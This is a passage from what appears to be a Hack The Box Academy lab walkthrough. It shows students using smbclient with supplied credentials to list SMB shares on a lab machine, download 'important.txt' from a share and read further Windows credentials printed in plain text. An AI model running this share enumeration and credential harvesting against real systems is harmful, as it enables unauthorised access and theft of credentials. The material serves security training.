 Subsequently, students need to utilize the credentials `alex:lol123!mD` to list the shares as the user `alex`:

Code: shell

```shell
smbclient -L //STMIP -U alex
```

```
┌─[eu-academy-1]─[10.10.14.45]─[htb-ac413848@htb-tl1xuueppb]─[~]
└──╼ [★]$ smbclient -L //10.129.202.41 -U alex

Enter WORKGROUP\alex's password: 

	Sharename       Type      Comment
	---------       ----      -------
	ADMIN$          Disk      Remote Admin
	C$              Disk      Default share
	devshare        Disk      
	IPC$            IPC       Remote IPC
	Users           Disk      
SMB1 disabled -- no workgroup available
```

Students need to connect to `devshare`, to find the file "important.txt" which they need to `get`:

Code: shell

```shell
smbclient //STMIP/devshare -U alex
```

```
┌─[eu-academy-1]─[10.10.14.45]─[htb-ac413848@htb-tl1xuueppb]─[~]
└──╼ [★]$ smbclient //10.129.202.41/devshare -U alex

Enter WORKGROUP\alex's password: 
Try "help" to get a list of possible commands.
smb: \> get important.txt 
getting file \important.txt of size 16 as important.txt (0.4 KiloBytes/sec) (average 0.4 KiloBytes/sec)
```

Reading "important.txt", students will find what seems to be a Windows credentials `sa:87N1ns@slls83`:

Code: shell

```shell
awk 1 important.txt
```

```
┌─[eu-academy-1]─[10.10.14.45]─[htb-ac413848@htb-tl1xuueppb]─[~]
└──╼ [★]$ awk 1 important.txt

sa:87N1ns@slls83
```
